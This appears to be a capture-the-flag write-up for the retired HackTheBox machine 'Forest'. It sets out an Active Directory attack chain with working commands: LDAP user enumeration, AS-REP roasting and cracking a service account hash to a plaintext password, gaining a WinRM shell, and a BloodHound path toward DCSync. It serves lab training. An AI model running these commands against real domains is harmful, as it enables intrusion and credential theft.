






---
tags:
  - Reference
---

# :material-microsoft-windows: Forest

<span class="pill pill-info">10.10.10.161 · htb.local</span> <span class="pill pill-medium">ad</span> <span class="pill pill-medium">asreproast</span> <span class="pill pill-medium">bloodhound</span>

**AS-REP → BloodHound → Exchange Windows Permissions** — my own notes, translated.

!!! warning "Full solution ahead"
    This is a complete walkthrough with working credentials. Retired machine.

1. **Port scan.** The LDAP banner hands you the domain name:

    

    *Domain `htb.local` from the LDAP banner*

    

    *Full port/version sweep*

2. **Enumerate users over LDAP** (anonymous bind allowed):

    ```bash
    ldapsearch -H ldap://10.10.10.161:389 -x -b "DC=htb,DC=local" "(objectClass=person)" | grep sAMAccountName
    ```

    Among the noise (`HealthMailbox*`, `SM_*` Exchange accounts) sit the real
    users: `sebastien`, `lucinda`, `andy`, `mark`, `santi`, `svc-alfresco`.

3. **enum4linux** for the password policy and RID-cycled users:

    ```bash
    enum4linux 10.10.10.161
    # Minimum password length: 7 | Account Lockout Threshold: None  <- no lockout, spray freely
    ```

4. **Find the account without Kerberos pre-authentication:**

    ```bash
    impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
    ```

5. **Crack the AS-REP hash:**

    ```bash
    john alfresco.txt --fork=4 -w=/path/to/rockyou.txt
    # -> s3rvice
    ```

6. **Shell:**

    ```bash
    evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
    ```

7. **Map the domain.** Prefer SharpHound on-host over remote collection — remote
    runs can miss data:

    ```bash
    bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -c all -ns 10.10.10.161 --zip
    ```

    

    *Domain node info — 10 first-degree controllers, 6 with DCSync*

    

    *Marking SVC-ALFRESCO owned and running the analysis queries*

    The path: `SVC-ALFRESCO` → *Service Accounts* → *Privileged IT Accounts* →
    *Account Operators* → **GenericAll** on *Exchange Windows Permissions*, which
    holds **WriteDacl** on the domain — i.e. grant yourself DCSync.

    

    *The path: SVC-ALFRESCO → Service Accounts → Privileged IT → Account Operators →**GenericAll***

    

    *Exchange Windows Permissions holds **WriteDacl** on the domain*

8. Upload PowerView to work the ACLs from the shell:

    ```powershell
    upload /path/to/powerview.ps1
    ```

## :material-link-variant: Related

- Back to the index → [HTB Writeups](../htb.md).
